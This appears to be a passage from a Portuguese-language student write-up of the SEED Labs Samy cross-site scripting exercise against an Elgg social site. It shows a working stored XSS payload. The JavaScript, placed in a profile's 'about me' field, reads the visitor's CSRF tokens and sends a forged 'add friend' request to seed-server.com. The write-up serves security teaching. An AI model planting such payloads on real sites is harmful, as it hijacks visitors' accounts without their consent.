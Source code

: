 
### Depois de obter o ID associado ao Samy, 59, e sabendo já como funciona o pedido http 'add friend' já conseguimos modificar o código dado:

### Inserimos no sendurl o link que nos foi dado pelo HTTP Header Live acrescentando apenas + ts+token. 

### Este código é, então, um pedido com o mesmo efeito do 'add friend' que vimos para conhecer como funcionava. O website vai enviar um pedido com o URL que colocamos na var sendurl fazendo as pessoas que visitam o perfil do Samy amigos dele automaticamente.

```html 

<script type="text/javascript">
    window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>

```
### Colocamos o código no campo about me do Samy

![Compilar](fotos/semana1015.png)
